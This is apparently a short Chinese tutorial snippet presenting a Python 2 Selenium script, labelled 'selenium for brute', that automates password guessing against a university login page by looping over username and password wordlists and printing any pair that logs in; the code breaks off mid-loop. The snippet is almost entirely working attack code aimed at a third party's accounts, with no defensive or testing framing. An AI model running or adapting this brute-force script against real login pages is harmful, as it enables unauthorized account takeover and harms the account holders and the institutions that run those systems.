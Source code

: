 如果有些元素不能直接定位，就尝试用autochain，如：

```plain
#coding:utf-8
#Author:LSA
#Descript:selenium for brute
#Data:201812



import time
import sys
from selenium import webdriver
from selenium.webdriver.common import action_chains, keys
import time

reload(sys) 
sys.setdefaultencoding('utf-8')



def BruteLogin(user,pwd):


        browser.get('http://xxx.edu.cn/login.jsp')
        browser.implicitly_wait(20)

        action = action_chains.ActionChains(browser)

        elem = browser.find_element_by_name("j_username")
        elem.send_keys(user)

        action.perform()

        elem=browser.find_element_by_name("j_password")
        elem.send_keys(pwd)

        action.perform()

        elem=browser.find_element_by_name("btn_submit")
        #print browser.current_window_handle
        #elem.click()

        action.send_keys("document.getElementsByName('btn_submit')[0].click()"+keys.Keys.ENTER)
        action.perform()

        time.sleep(1)
        if '当前用户' in browser.page_source:

            print 'Login Success:' + user + '|' + pwd
            sys.exit()
        else:
            print 'LoginFaild!'


browser = webdriver.Chrome()


def main():

    with open('usernameTop500.txt','r') as fuser:
            for user in fuser.readlines():
                    u = user.strip()
                    with open('topwdglobal.txt','r') as fpwd:
```